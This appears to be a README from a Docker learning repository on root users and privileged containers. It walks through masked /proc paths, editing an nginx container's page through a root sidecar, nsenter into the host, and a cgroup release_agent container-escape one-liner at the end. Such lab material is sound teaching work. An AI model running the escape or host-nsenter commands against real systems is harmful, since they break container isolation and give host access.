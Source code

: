 # ROOT USER

Demonstrate root user and privilege inside the container.  

TODO:

* try and nsenter into the host
* try and list all the host processes from inside the container.

Refer to [../13_users_and_permissions/README.md](../13_users_and_permissions/README.md) for more examples.  

## 📋 Script to follow

Demonstrate internal users and privilege  

### Build the image (root and user)

```sh
# build root
docker build --no-cache -t roottest -f root.Dockerfile .
# build myuser
docker build --no-cache -t usertest -f user.Dockerfile .
```

### Run as privileged (root)

```sh
# roottest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as privileged (user)

```sh
# usertest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# even though privileged we can't 'cat timer_list'
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as non-privileged and inspect (root)

```sh
# roottest
docker run -it --rm --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# should see in output
"MaskedPaths": [
    "/proc/asound",
    "/proc/acpi",
    "/proc/kcore",
    "/proc/keys",
    "/proc/latency_stats",
    "/proc/timer_list",
    "/proc/timer_stats",
    "/proc/sched_debug",
    "/proc/scsi",
    "/sys/firmware"
],
"ReadonlyPaths": [
    "/proc/bus",
    "/proc/fs",
    "/proc/irq",
    "/proc/sys",
    "/proc/sysrq-trigger"
]
```

### Run as non-privileged and inspect (myuser)

```sh
# usertest
docker run -it --rm --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

```

## Modify another container using sidecar rootuser

Start an nginx container

```sh
# start nginx
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/

# open unprivileged non-root user sidecar
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" usertest
# Change the nginx static file (permission denied)
cat /proc/1/root/etc/nginx/nginx.conf

# open unprivileged root user sidecar (allows us to edit files)
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" roottest

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

## Modify another container using privileged rootuser

```sh
# open privileged sidecar
docker run -it --rm --privileged --entrypoint "/bin/bash" roottest

# try and nsenter into the host
# try and list all the containers from inside.
```

## Get onto the docker desktop alpine host

```sh
# nsenter into the host docker alpine 
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

Changing and reloading config  

```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Escape the container

This will only work on Linux.  It doesn't work on Docker for Desktop.

**TODO** Can I use this to get access to another container filesystem without being in same namespace?  
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  

```sh
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
